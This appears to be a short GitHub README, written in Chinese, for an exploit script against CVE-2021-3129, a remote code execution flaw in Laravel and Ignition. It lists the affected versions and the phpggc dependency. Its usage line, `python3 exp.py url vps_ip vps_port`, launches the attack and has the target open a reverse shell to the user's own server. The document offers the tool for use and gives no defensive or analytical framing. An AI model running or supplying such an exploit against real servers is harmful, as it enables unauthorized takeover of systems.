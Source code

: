 ## CVE-2021-3129

影响范围  Laravel <= 8.4.2. Ignition <2.5.2

# environment

注意必须放在[phpggc](https://github.com/ambionics/phpggc)的目录下运行,且要有php-cli环境

# usage
`python3 exp.py url vps_ip vps_port` 直接在vps上接受shell即可

![Snipaste_2021-04-10_09-40-45](./Snipaste_2021-04-10_09-40-45.jpg)



![Snipaste_2021-04-10_09-43-48](./Snipaste_2021-04-10_09-43-48.jpg)



